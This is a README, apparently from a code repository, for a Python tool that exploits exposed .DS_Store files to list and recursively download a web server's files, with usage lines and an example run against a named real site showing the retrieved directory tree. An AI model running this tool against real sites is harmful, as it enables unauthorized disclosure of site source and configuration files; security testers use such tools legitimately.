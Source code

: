 # ds\_store\_exp #

A **`.DS_Store`** file disclosure exploit. 

It parses .DS_Store file and downloads files recursively.

这是一个 .DS\_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地。

    Usage: python ds_store_exp.py http://www.example.com/.DS_Store

## Install ##

	pip install ds-store requests

## Example ##

	ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js
	
	21 directories, 48 files